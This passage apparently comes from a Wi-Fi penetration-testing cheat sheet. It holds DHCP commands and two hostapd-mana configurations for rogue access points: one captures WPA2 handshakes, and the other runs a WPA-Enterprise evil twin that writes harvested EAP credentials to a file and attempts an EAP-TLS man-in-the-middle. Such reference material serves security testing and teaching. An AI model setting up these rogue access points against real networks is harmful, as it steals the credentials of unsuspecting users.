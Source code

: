   ```
    #Once associated, you’ll need to request an IP:
    sudo dhclient wlan0 -v 
    #or
    sudo dhcpcd wlan0
    #Or for `systemd` users:
    sudo systemd-networkd
    ```

## 7. Hostapd-mana

* ```bash
  #####HOSTAPD.CONF######
  # Interface configuration for WPA2
  interface=wlan1
  driver=nl80211
  hw_mode=g
  channel=1
  ssid=wifi-offices
  mana_wpaout=hostapd.hccapx
  wpa=2
  wpa_key_mgmt=WPA-PSK
  wpa_pairwise=TKIP CCMP
  wpa_passphrase=12345678
  ```

* ```bash
  #### HOSTAPD.CONF######
  # Interface configuration for WPA-MGT
  interface=wlan1
  ssid=ENTER_SSID_HERE
  channel=1
  auth_algs=3
  wpa_key_mgmt=WPA-EAP
  wpa_pairwise=TKIP CCMP
  wpa=3
  hw_mode=g
  ieee8021x=1
  driver=nl80211
  
  # EAP Configuration
  eap_server=1
  eap_user_file=hostapd.eap_user
  
  # Mana Configuration
  enable_mana=1
  mana_loud=1
  mana_credout=credentials.creds
  mana_eapsuccess=1
  mana_wpe=1
  # EAP TLS MitM
  mana_eaptls=1
  